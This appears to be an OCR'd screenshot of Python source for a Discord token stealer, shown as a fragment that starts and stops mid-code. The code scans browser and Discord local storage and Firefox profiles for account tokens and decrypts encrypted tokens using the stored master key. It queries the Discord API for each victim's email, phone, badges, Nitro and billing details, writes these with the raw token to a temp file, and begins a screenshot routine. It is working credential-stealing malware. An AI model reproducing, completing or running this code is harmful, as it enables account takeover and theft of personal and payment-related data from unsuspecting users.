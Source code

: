                 for profile in profiles:
                    newpath = path.replace('<PROFILE>',profile) + r'\\Local Storage\\leveldb\\'
                    for file_name in os.listdir(newpath):
                        if not file_name.endswith('.log') and not file_name.endswith('.ldb'): continue
                        for line in [x.strip() for x in open(f'{newpath}\\{file_name}', errors='ignore').readlines() if x.strip()]:
                            for token in re.findall(r"[\w-]{24,28}\.[\w-]{6}\.[\w-]{25,110}", line): self.checkToken(token, f'{source} ({profile})')
            else:
                if os.path.exists(self.roaming+'\\discord\\Local State'):
                    for file_name in os.listdir(path):
                        if not file_name.endswith('.log') and not file_name.endswith('.ldb'): continue
                        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
                            for y in re.findall(r"dQw4w9WgXcQ:[^\"]*", line): token = self.decrypt_val(base64.b64decode(y.split('dQw4w9WgXcQ:')[1]), self.get_master_key(self.roaming+'\\discord\\Local State')); self.checkToken(token, source)
        if os.path.exists(self.roaming+"\\Mozilla\\Firefox\\Profiles"):
            for path, _, files in os.walk(self.roaming+"\\Mozilla\\Firefox\\Profiles"):
                for _file in files:
                    if not _file.endswith('.sqlite'): continue
                    for line in [x.strip() for x in open(f'{path}\\{_file}', errors='ignore').readlines() if x.strip()]:
                            for token in re.findall(r"[\w-]{24}\.[\w-]{6}\.[\w-]{25,110}", line): self.checkToken(token, 'Firefox')
    def neatifyTokens(self):
        f = open(self.tempfolder+"\\Discord Info.txt", "w+", encoding="utf8", errors='ignore')
        for info in self.tokens:
            token = info[0]
            j = requests.get(self.baseurl, headers=self.getHeaders(token)).json()
            user = j.get('username') + '#' + str(j.get("discriminator"))
            badges = ""
            flags = j['flags']
            if (flags == 1): badges += "Staff, "
            if (flags == 2): badges += "Partner, "
            if (flags == 4): badges += "Hypesquad Event, "
            if (flags == 8): badges += "Green Bughunter, "
            if (flags == 64): badges += "Hypesquad Bravery, "
            if (flags == 128): badges += "HypeSquad Brillance, "
            if (flags == 256): badges += "HypeSquad Balance, "
            if (flags == 512): badges += "Early Supporter, "
            if (flags == 16384): badges += "Gold BugHunter, "
            if (flags == 131072): badges += "Verified Bot Developer, "
            if (badges == ""): badges = "None"
            email = j.get("email")
            phone = j.get("phone") if j.get("phone") else "No Phone Number attached"
            try: nitro_data = requests.get(self.baseurl+'/billing/subscriptions', headers=self.getHeaders(token)).json()
            except Exception: self.exceptions.append(traceback.format_exc())
            has_nitro = False
            has_nitro = bool(len(nitro_data) > 0)
            try: billing = bool(len(json.loads(requests.get(self.baseurl+"/billing/payment-sources", headers=self.getHeaders(token)).text)) > 0)
            except Exception: self.exceptions.append(traceback.format_exc())
            f.write(f"{' '*17}{user}\n{'-'*50}\nToken: {token}\nPlatform: {info[1]}\nHas Billing: {billing}\nNitro: {has_nitro}\nBadges: {badges}\nEmail: {email}\nPhone: {phone}\n\n")
        f.seek(0)
        content = f.read()
        f.close()
        if not content:
            os.remove(self.tempfolder+"\\Discord Info.txt")
    def screenshot(self):
        image = ImageGrab.grab(
            bbox=None, 